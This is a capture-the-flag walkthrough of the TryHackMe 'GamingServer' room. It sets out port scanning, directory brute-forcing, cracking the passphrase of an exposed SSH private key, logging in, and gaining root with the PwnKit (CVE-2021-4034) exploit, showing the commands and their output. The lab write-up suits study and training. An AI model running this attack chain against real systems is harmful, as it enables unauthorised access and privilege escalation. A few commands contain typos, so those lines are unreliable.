


# GamingServer

Link to the room: https://tryhackme.com/room/gamingserver

## Let's start !! 

First, we set an IP variable 

````````
export IP=10.10.204.134
````````

### Rustscan 

As always we start with rustscan I like its style and it instantly gives a response after discovering an open port. The drawback is that we cannot scan it for UDP.

````````
rustscan  $IP -- -A -sC -oN nmap.txt
````````

````````
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
Faster Nmap scanning with Rust.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.204.134:22
Open 10.10.204.134:80
[~] Starting Nmap
[>] The Nmap command to be run is nmap -A -sC -oN nmap.txt -vvv -p 22,80 10.10.204.134

Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-05 21:26 IST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 21:26
Completed NSE at 21:26, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 21:26
Completed NSE at 21:26, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 21:26
Completed NSE at 21:26, 0.00s elapsed
Initiating Ping Scan at 21:26
Scanning 10.10.204.134 [4 ports]
Completed Ping Scan at 21:26, 0.37s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:26
Completed Parallel DNS resolution of 1 host. at 21:26, 0.05s elapsed
DNS resolution of 1 IPs took 0.05s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 21:26
Scanning 10.10.204.134 [2 ports]
Discovered open port 22/tcp on 10.10.204.134
Discovered open port 80/tcp on 10.10.204.134
Completed SYN Stealth Scan at 21:26, 0.27s elapsed (2 total ports)
Initiating Service scan at 21:26
Scanning 2 services on 10.10.204.134
Completed Service scan at 21:26, 6.68s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 10.10.204.134
Retrying OS detection (try #2) against 10.10.204.134
Initiating Traceroute at 21:27
Completed Traceroute at 21:27, 1.41s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 21:27
Completed Parallel DNS resolution of 2 hosts. at 21:27, 0.03s elapsed
DNS resolution of 2 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 2, DR: 0, SF: 0, TR: 2, CN: 0]
NSE: Script scanning 10.10.204.134.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 21:27
Completed NSE at 21:27, 12.75s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 21:27
Completed NSE at 21:27, 1.45s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 21:27
Completed NSE at 21:27, 0.00s elapsed
Nmap scan report for 10.10.204.134
Host is up, received reset ttl 63 (0.35s latency).
Scanned at 2022-06-05 21:26:52 IST for 31s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCrmafoLXloHrZgpBrYym3Lpsxyn7RI2PmwRwBsj1OqlqiGiD4wE11NQy3KE3Pllc/C0WgLBCAAe+qHh3VqfR7d8uv1MbWx1mvmVxK8l29UH1rNT4mFPI3Xa0xqTZn4Iu5RwXXuM4H9OzDglZas6RIm6Gv+sbD2zPdtvo9zDNj0BJClxxB/SugJFMJ+nYfYHXjQFq+p1xayfo3YIW8tUIXpcEQ2kp74buDmYcsxZBarAXDHNhsEHqVry9I854UWXXCdbHveoJqLV02BVOqN3VOw5e1OMTqRQuUvM5V4iKQIUptFCObpthUqv9HeC/l2EZzJENh+PmaRu14izwhK0mxL
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEaXrFDvKLfEOlKLu6Y8XLGdBuZ2h/sbRwrHtzsyudARPC9et/zwmVaAR9F/QATWM4oIDxpaLhA7yyh8S8m0UOg=
|   256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOLrnjg+MVLy+IxVoSmOkAtdmtSWG0JzsWVDV2XvNwrY
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: House of danak
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.92%E=4%D=6/5%OT=22%CT=%CU=30652%PV=Y%DS=2%DC=T%G=N%TM=629CD263%P=x86_64-pc-linux-gnu)
SEQ(SP=107%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST11NW6%O6=M505ST11)
WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)
ECN(R=Y%DF=Y%T=40%W=F507%O=M505NNSNW6%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 47.046 days (since Tue Apr 19 20:20:58 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   398.82 ms 10.8.0.1
2   384.85 ms 10.10.204.134

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 21:27
Completed NSE at 21:27, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 21:27
Completed NSE at 21:27, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 21:27
Completed NSE at 21:27, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.40 seconds
           Raw packets sent: 63 (4.336KB) | Rcvd: 376 (425.417KB)

````````
so, we have ports 22 and 80 open. let's enumerate port 80... 

## HTTP

  

Here, we can see a webpage with some horrible to-looking content. Let us take a look at the source code...



We found a name john maybe a username.. let's continue our enumeration. 

#### Gobuster 

I wonder what's hidden on this web server. let's dig it..........

````````
gobuster dir -u http://10.10.204.134/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x php,txt,zip,html | tee gobuster.log
````````

````````
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.204.134/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              zip,html,php,txt
[+] Timeout:                 10s
===============================================================
2022/06/05 21:33:39 Starting gobuster in directory enumeration mode
===============================================================
/about.html           (Status: 200) [Size: 1435]
/index.html           (Status: 200) [Size: 2762]
/about.php            (Status: 200) [Size: 2213]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.204.134/uploads/]
/robots.txt           (Status: 200) [Size: 33]                                     
/secret               (Status: 301) [Size: 315] [--> http://10.10.204.134/secret/] 
/myths.html           (Status: 200) [Size: 3067] 

````````
We have found many interesting things. let's take a look at them... In ``/Secret`` there is a file called secretKey which is an id_rsa file.



Let's download and crack it.......

````````c
wget http://10.10.204.134/secret/secretKey
````````
Now we will rename it as id_rsa

````````
mv secretKey id_rsa
````````
after renaming it we need to convert it to john format.....

#### Cracking the id_rsa file

````````
python3 ssh2john.p id_rsa > rsa.txt
````````

Now it's time to crack the bad boy.......

````````
john id_rsa --wordlist=/usr/share/wordlists/rockyou.txt
````````

````````
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
{REDACTED}          (id_rsa)     
1g 0:00:00:00 DONE (2022-06-05 22:11) 50.00g/s 26400p/s 26400c/s 26400C/s teiubesc..red123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

````````
So, we have successfully Cracked it. now let us login into our target machine

### Getting user.txt

````````
pwncat-cs john@$IP -i id_rsa 
````````

````````
[22:13:23] Welcome to pwncat 🐈!                                                                                                               __main__.py:164
Private Key Passphrase: *******
[22:13:32] 10.10.204.134:22: registered new host w/ db                                                                                          manager.py:957
(local) pwncat$                                                                                                                                               
(remote) john@exploitable:/home/john$ whoami
john
(remote) john@exploitable:/home/john$ ls
user.txt
(remote) john@exploitable:/home/john$ cat user.txt 
{REDACTED}
(remote) john@exploitable:/home/john$ 

````````

### Privilage Esculation (Getting Root.txt)

````````
(local) pwncat$ upload /opt/CVE-2021-4034/PwnKit
./PwnKit ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 14.7/14.7 KB • ? • 0:00:00
[22:42:05] uploaded 14.69KiB in 1.80 seconds                                                                                                      upload.py:76
(local) pwncat$                                                                                                                                               
(remote) john@exploitable:/home/john$ chmod +x PwnKit 
(remote) john@exploitable:/home/john$ ./PwnKit 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@exploitable:/home/john# whoami
root
root@exploitable:/home/john# cd
root@exploitable:~# ls
root.txt
root@exploitable:~# cat root.txt 
{REDACTED}
root@exploitable:~# 

````````
REFARENCE : https://github.com/TanmoyG1800/CVE-2021-4034/blob/main/EXPLOIT

Here, we have used CVE-2021-4034 for privilege escalation.


- DONE
